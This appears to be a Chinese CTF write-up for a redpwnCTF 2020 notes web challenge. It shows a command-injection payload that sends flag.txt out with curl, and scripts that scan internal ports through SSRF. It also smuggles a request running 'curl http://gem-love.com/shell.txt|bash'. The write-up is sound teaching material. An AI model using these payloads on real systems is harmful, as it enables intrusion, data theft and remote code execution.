 很明显有命令注入，nid是由web/server.py中`/notes/&lt;nid&gt;`传入

`payload：/notes/x';curl ip --data [@flag](https://github.com/flag).txt;'`

尝试了很多直接反弹shell的payload，最后base64一下才成功反弹成功

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://s1.ax1x.com/2020/07/02/NqFIdH.png)

还有一种做法是ssrf+http走私,但是我复现的时候没成功

web运行在外网，api是运行在内网且端口未知，端口在50000-51000

```
if __name__ == '__main__':
    backend_port = random.randint(50000, 51000)

    at = threading.Thread(target = api_server.start, args = (backend_port,))
    wt = threading.Thread(target = web_server.start, args = (backend_port,))
```

`check_link()`可以探测内网，知道端口号后就可以走私，这里借用y1ng师傅的脚本

```
# 探测端口
import requests as req
url = "http://2020.redpwnc.tf:31957/check-links"
data = `{`"links":""`}`
for i in range(50000,51000):
    api = "http://localhost:`{``}`".format(i)
    data["link"] = api
    r = req.post(url, data=data)
    if r"true" in r.text:
        print("success:"+str(i))
        break

# 走私，命令执行
#!/usr/bin/env python3
#-*- coding:utf-8 -*-
#__author__: 颖奇L'Amore www.gem-love.com
import requests as req
from urllib.parse import quote as urlen

url = "http://2020.redpwnc.tf:31957/check-links"
#bash中用#把后面的命令过滤掉
smuggling = "http://127.0.0.1rnrnGET /api/v1/notes/?title=" + urlen("';curl http://gem-love.com/shell.txt|bash #") + " HTTP/1.1rnrn:50596"

data = `{`"links":smuggling`}`
req.post(url, data=data)
```

## web/cookie-recipes-v2
